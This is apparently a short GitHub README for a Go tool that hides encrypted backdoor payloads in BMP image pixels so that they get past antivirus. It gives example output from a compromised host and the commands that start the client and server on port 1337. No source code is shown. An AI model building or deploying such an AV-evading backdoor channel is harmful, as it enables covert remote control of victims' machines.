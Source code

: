 # Go-BMP-Backdoor

Inspired by [Transferring Backdoor Payloads with BMP Image Pixels](https://www.peerlyst.com/posts/transferring-backdoor-payloads-with-bmp-image-pixels-damon-mohammadbagher), I write a Go version.

Encrypt backdoor payloads in .bmp files to bypass AV.

## Example

![](./client_send.bmp)

base64 encoded `uid=1000(amyang) gid=1000(amyang) groups=1000(amyang),10(wheel),14(uucp),54(lock),56(bumblebee),95(storage),108(vboxusers),1001(usbfs)`

## Usage

### Client

`./client_linux -server 127.0.0.1 -port 1337`

so is client_windows.exe

### Server

`./server -port 1337`